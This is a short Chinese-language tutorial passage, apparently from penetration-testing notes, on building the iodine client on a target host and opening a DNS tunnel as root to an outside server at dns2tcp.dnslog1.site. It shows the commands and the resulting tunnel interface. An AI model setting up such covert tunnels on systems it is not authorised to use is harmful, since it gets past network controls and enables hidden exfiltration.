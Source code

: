 如果是 Linux 系统，先安装 iodine。上传 iodlie 客户端到目标主机，解压，进入目录安装

```
cd iodine-0.7.0/
make && make install
```

kali 默认安装了 iodine，执行下面命令连接服务端(需要 root 权限)，如图连接成功。

```
iodine -f -P root@123456 dns2tcp.dnslog1.site
```

![client](img/Tunnel/client.png)

连接成功后，客户端上新建了一个 dns0 的网卡，IP 地址为 172.16.10.2

![ifconfig_client](img/Tunnel/ifconfig_client.png)

然后 ping 服务端地址

![pingserver](img/Tunnel/pingserver.png)
